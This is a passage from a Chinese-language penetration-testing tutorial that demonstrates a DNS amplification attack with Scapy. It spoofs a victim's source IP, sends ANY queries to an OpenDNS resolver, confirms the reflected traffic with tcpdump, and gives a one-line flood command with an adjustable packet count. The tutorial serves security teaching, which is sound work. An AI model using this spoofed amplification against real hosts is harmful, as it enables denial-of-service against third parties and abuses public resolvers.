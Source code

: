 将源 IP 地址值重新定义为目标系统的 IP 地址的字符串后，我们可以使用`display()`函数确认该值已调整。 然后我们可以重建我们的更改后的请求。 为了验证我们是否能够将 DNS 查询响应重定向到此伪造主机，我们可以在主机上启动 TCPdump：

```
admin@ubuntu:~$ sudo tcpdump -i eth0 src 208.67.220.220 -vv 
[sudo] password for admin: 
tcpdump: listening on eth0, link-type EN10MB (Ethernet), capture size 65535 bytes 
```

在提供的示例中，TCPdump 配置将捕获`eth0`接口上，来自`208.67.220.220`源地址（查询的 DNS 服务器的地址）的所有流量。 然后，我们可以使用`send()`函数发送我们的请求：

```
>>> send(request) 
. 
Sent 1 packets. 
>>> send(request) 
. 
Sent 1 packets.
```

发送请求后，我们应该返回到 TCPdump 的内容，来验证 DNS 查询的响应是否返回给了受害服务器：

```
tcpdump: listening on eth0, link-type EN10MB (Ethernet), capture size 65535 bytes 
19:07:12.926773 IP (tos 0x0, ttl 128, id 11341, offset 0, flags [none], proto UDP (17), length 350) resolver2.opendns.com.domain > 172.16.36.135. domain: [udp sum ok] 0 q: ANY? google.com. 16/0/0 google.com. A yyz08s13in-f4.1e100.net, google.com. A yyz08s13-in-f5.1e100.net, google. com. A yyz08s13-in-f14.1e100.net, google.com. A yyz08s13-in-f6.1e100. net, google.com. A yyz08s13-in-f2.1e100.net, google.com. A yyz08s13in-f0.1e100.net, google.com. A yyz08s13-in-f3.1e100.net, google.com. A yyz08s13-in-f1.1e100.net, google.com. A yyz08s13-in-f9.1e100.net, google. com. A yyz08s13-in-f7.1e100.net, google.com. A yyz08s13-in-f8.1e100.net, google.com. NS ns2.google.com., google.com. NS ns1.google.com., google. com. NS ns3.google.com., google.com. NS ns4.google.com., google.com. SOA ns1.google.com. dns-admin.google.com. 1545677 7200 1800 1209600 300 (322) 
19:07:15.448636 IP (tos 0x0, ttl 128, id 11359, offset 0, flags [none], proto UDP (17), length 350) resolver2.opendns.com.domain > 172.16.36.135. domain: [udp sum ok] 0 q: ANY? google.com. 16/0/0 google.com. A yyz08s13in-f14.1e100.net, google.com. A yyz08s13-in-f6.1e100.net, google.com. A yyz08s13-in-f2.1e100.net, google.com. A yyz08s13-in-f0.1e100.net, google. com. A yyz08s13-in-f3.1e100.net, google.com. A yyz08s13-in-f1.1e100. net, google.com. A yyz08s13-in-f9.1e100.net, google.com. A yyz08s13in-f7.1e100.net, google.com. A yyz08s13-in-f8.1e100.net, google.com. A yyz08s13-in-f4.1e100.net, google.com. A yyz08s13-in-f5.1e100.net, google. com. NS ns2.google.com., google.com. NS ns1.google.com., google.com. NS ns3.google.com., google.com. NS ns4.google.com., google.com. SOA ns1. google.com. dns-admin.google.com. 1545677 7200 1800 1209600 300 (322) 
```

这个执行 DNS 放大的整个过程，实际上可以用 Scapy 中的单行命令来执行。 此命令使用所有与上一个练习中讨论的相同的值。 然后可以修改`count`值以定义要发送到受害服务器的载荷响应数：

```
>>> send(IP(dst="208.67.220.220",src="172.16.36.135")/UDP()/DNS(rd=1,qdco unt=1,qd=DNSQR(qname="google.com",qtype=255)),verbose=1,count=2) 
.. 
Sent 2 packets.

```

### 工作原理
